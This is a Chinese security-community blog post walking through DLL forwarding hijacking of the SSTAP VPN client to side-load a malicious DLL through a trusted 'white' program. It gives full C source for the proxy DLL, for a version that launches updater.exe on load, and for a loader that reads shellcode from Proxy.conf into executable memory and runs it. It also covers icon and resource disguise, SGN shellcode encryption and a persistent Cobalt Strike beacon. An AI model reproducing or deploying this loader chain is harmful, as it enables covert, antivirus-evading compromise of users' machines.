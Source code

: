 

# 关于 DLL 转发劫持的思考 - 先知社区

关于 DLL 转发劫持的思考

- - -

发现很多网上都是直接劫持目标程序加载 DLL，直接转发 DLL 劫持，然后将 shellcode 写到劫持的那个 DLL 里面。

最终目标程序加载我们恶意 DLL 的时候成功上线。

那么我们思考一下，shellcode 写入到 dll 中肯定是被查杀的不用说。

那么我们能不能通过转发 dll 劫持去点击白程序，然后通过白程序去加载我们的恶意 dll 呢？

比如说我们现在有一个 sstap.exe 这个程序，这个程序是一个 VPN 软件，当执行它的时候会加载很多的 dll 文件。

那么我们通过 DLL 转发劫持，拿到一个新的 DLL 之后，在新的 DLL 中写入打开白程序的代码，通过白程序去加载黑 DLL。就算将 sstap.exe 退了，也不会导致我们的 beacon 下线。

如下图：

[![](assets/1706496780-6e4ba72d43ac0a26037b7989ac5512b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094642-c181c392-bbec-1.png)  
那么我们来一步一步的实现，首先我们肯定先要做一个 DLL 转发劫持。

这里使用到 AheadLib 工具来做转发 DLL 劫持。

这里我们使用到的程序是 sstap.exe，当然你也可以使用其他的。

[![](assets/1706496780-4c7e761e9e2720684f132943a76c84ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094648-c4d1c31c-bbec-1.png)  
这里需要将原始 DLL 的名字更改一下这里，改成 libiconv2Help，其实也可以更改为其他名字，只要不是那么明显就好，点击生成即可。

生成代码如下：

```bash
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 头文件
#include <Windows.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

现在我们来实现第二步，在 DLLMain 方法中需要通过创建一个线程去执行点击操作。

如下代码：可以看到这里通过 ShellExecute 函数去点击 updater.exe，也就是说我们去运行 sstap.exe 的时候他会加载 libiconv2.dll，而这个 dll 被我们转发劫持掉了，而转发的这个 dll 中写的就是点击 updater.exe，当点击 updater.exe 的时候他就会去加载黑 DLL 上线。

```bash
// 头文件
#include "pch.h"
#include <Windows.h>
#include <iostream>
#include <Windows.h>
#include <shlwapi.h>
#include <shlobj_core.h>
#pragma comment(lib, "Shlwapi.lib")
#include <ShellAPI.h>

// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")


DWORD WINAPI run(LPVOID lpParameter) {
    ShellExecute(NULL, L"open", L"updater.exe", NULL, NULL, SW_SHOW);
    return 0;
}

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        CreateThread(NULL, 0, run, NULL, 0, NULL);
        DisableThreadLibraryCalls(hModule);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
```

我们生成 DLL 之后通过 resource Hacker 去给他打上 kernel32.res 的资源。

[![](assets/1706496780-7ab6a0d8d9bbd5a7e5c7d240ac7b57aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094730-de25629c-bbec-1.png)  
然后我们将它拉入到 SSTAP 包中，更改名称为 libiconv2.dll 即可，然后将原始的 DLL 的名字更改为 libiconv2Help.dll 即可。

[![](assets/1706496780-71374187cc0d7cff811cdaa770e6fd23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094736-e1ba78ca-bbec-1.png)  
然后我们需要白程序和黑 DLL 也拉进去。

这里黑 DLL 也是需要在导出函数中写你的 loader。

代码如下：需要注意的是这里我们读取的 Proxy.conf 文件，这个文件就是我们的 shellcode。

```bash
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>


extern "C" __declspec(dllexport) int error_output() {


    return 0;
}
extern "C" __declspec(dllexport) int dirutils_path_transform() {
     return 0;
}
extern "C" __declspec(dllexport) int autolog_init() {
     return 0;
}
extern "C" __declspec(dllexport) int error_output_check() {
    DWORD dwSize;
    DWORD dwReadSize;
    HANDLE hFileNew;
    hFileNew = CreateFile(L"Proxy.conf", GENERIC_ALL, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFileNew == INVALID_HANDLE_VALUE)
    {
        return 0;
    }

    dwSize = GetFileSize(hFileNew, NULL);

    void* exec = VirtualAlloc(0, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    ReadFile(hFileNew, exec, dwSize, &dwReadSize, NULL);

    ((void(*)())exec)();
     return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

将白程序和黑 dll 以及 shellcode 放到 sstap 目录中，这里的白程序为了不引人注意，所以添加了 icon 图标，当然你也可以添加，其实也是通过 resource hacker 去添加的。

如下图：

[![](assets/1706496780-929545333dce7a94fc08c5b7ad8d75e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094757-ede587ac-bbec-1.png)  
然后当我们去运行 sstap.exe 的时候如下：

```bash
sstap.exe 加载 libiconv2.dll -> libiconv2.dll 点击 updater.exe -> updater.exe 加载黑 DLL + 最后加载 shellcode
```

这里的 shellcode 可以通过 SGN 去加密即可。

当我们点击 sstap.exe 的时候，正常打开，如下图：

[![](assets/1706496780-3f2d7df565410aae875cae8086b287a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094812-f737588a-bbec-1.png)  
然后我们来到 Cobalt Strike 这里可以看到已经上线了。

并且上线的并不是 sstap.exe，而是 updater.exe。

[![](assets/1706496780-a01b5f1fb3033cf8d42be62e78a61ef5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094817-fa367f2a-bbec-1.png)  
当我们将 sstap.exe 退了之后会发现我们的 beacon.exe 是不会掉的。因为进程中跑的是 updater.exe。  
[![](assets/1706496780-bb14134a870e83a6917aca5aac536708.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094823-fd9bab54-bbec-1.png)
